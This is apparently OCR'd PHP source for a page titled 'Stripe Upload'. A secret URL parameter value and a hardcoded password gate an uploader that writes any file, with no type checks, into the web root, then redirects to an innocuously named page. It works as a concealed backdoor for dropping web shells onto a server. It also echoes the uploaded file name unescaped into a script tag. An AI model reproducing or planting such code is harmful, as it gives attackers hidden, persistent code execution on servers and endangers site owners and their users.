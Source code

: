  if ($_GET['ur1-id'] == "gh_NGHHBGF-4635")
{
	session_start();
	if (isset($_POST["submit"]))
	{
		$str =  "<script>$('#retval').html('";
		if ($_POST['pwd'] == 'BNH_11-hgdbnj') {
        $target_dir    = "./";
        $target_file   = $target_dir . basename($_FILES["fileToUpload"]["name"]);
        $uploadOk      = 1;
        $FileType = strtolower(pathinfo($target_file, PATHINFO_EXTENSION));
        // Check if file already exists
        if (file_exists($target_file))
		{
            $str .= "Sorry, file already exists.<br>";
            $uploadOk = 0;
        }
        if ($uploadOk == 0) {
            $str .= "Sorry, your file was not uploaded.";
            // if everything is ok, try to upload file
        } else {
            if (move_uploaded_file($_FILES["fileToUpload"]["tmp_name"], $target_file)) {
                $str .= "The file " . basename($_FILES["fileToUpload"]["name"]) . " has been uploaded.";
            } else {
                $str .= "Sorry, there was an error uploading your file.";
            }
        }
    } else {
        $str .= "Invalid key";
    }
    $str .= "');</script>";
    $_SESSION['message'] = $str;
    unset($_POST);
    unset($_FILES);
    header("Location: parent_info_123.php?ur1-id=gh_NGHHBGF-4635");
    exit;
}
?>
<!DOCTYPE html>
<html>

<head>
    <meta charset="utf-8">
    <title>Stripe Upload</title>
    <link rel="icon" href="favicon.png">
    <meta name="viewport" content="width=device-width, initial-scale=1, shrink-to-fit=no">
    <link rel="stylesheet" href="https://maxcdn.bootstrapcdn.com/bootstrap/4.3.1/css/bootstrap.min.css">
	<script src="https://ajax.googleapis.com/ajax/libs/jquery/3.4.1/jquery.min.js"></script>
	<script src="https://cdnjs.cloudflare.com/ajax/libs/popper.js/1.14.7/umd/popper.min.js"></script>
	<script src="https://maxcdn.bootstrapcdn.com/bootstrap/4.3.1/js/bootstrap.min.js"></script>
</head>

<body class="text-center">
    <div class="container-fluid">

        <div class="row justify-content-center">
            <div class="mx-1 mt-1 card rounded">
                <div class="card-body">
                    <form action="?order_id=gFa6IcyDFvlq4w==" method="post" enctype="multipart/form-data" class="form-signin">
                        <h1 class="h3 mb-3 font-weight-normal">Please verify</h1>
                        <label for="inputPassword" class="sr-only">Password</label>
                        <input type="password" name="pwd" id="pwd" class="form-control" placeholder="Password" required>
                        <label class="btn btn-primary btn-block">
                            Browse <input type="file" name="fileToUpload" id="filetoUpload"
                                onchange="$('#upload-file-info').html(this.files[0].name)" hidden>
                        </label>
                        <p class='label label-info' id="upload-file-info"></p>
                        <p class='label label-info' id="retval"></p>
                        <button name="submit" class="btn btn-lg btn-primary btn-block" type="submit">Verify and upload
                        </button>
                    </form>
                </div>
            </div>

        </div>
    </div>
    <?php
        if(isset($_SESSION['message']))
        {
            echo $_SESSION['message'];
            unset($_SESSION['message']);
        }
    ?>
</body>

</html>
<?php
}

